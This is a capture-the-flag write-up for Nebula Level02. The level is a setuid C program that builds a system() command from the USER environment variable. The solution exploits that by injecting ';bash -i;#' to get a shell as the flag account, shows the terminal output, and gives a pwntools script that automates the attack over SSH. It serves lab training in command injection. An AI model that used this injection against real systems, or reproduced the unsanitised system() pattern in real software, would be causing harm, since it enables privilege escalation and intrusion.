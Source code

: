 # Level02

#### Description

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

***

#### Solution

Looking at the source code above it is reading gid and uid of the running process and sets the real, effective, and saved GID/UID to those effective values. In short: it makes all three IDs identical to the current effective IDs. Next it is fetching the `USER` environment variable (Which we can control). After that it calls the shell to run the command. In this example it will run `/bin/echo <USER> is cool`, so the program prints something like `hacker is cool` .

As it is fetching and running USER environment variable, what if USER contains something vulnerable, maybe reverse shell or something like this `USER=';bash -i;#'` .

```bash
level02@nebula:/home/flag02$ export USER=';bash -i;#'
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash -i;# is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level02', password='level02')

# start a remote shell
terminal = session.shell()

# Changing USER environment variable
terminal.sendline("export USER=';bash -i;#'")

# Executing target binary
terminal.sendline('/home/flag02/flag02')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

***
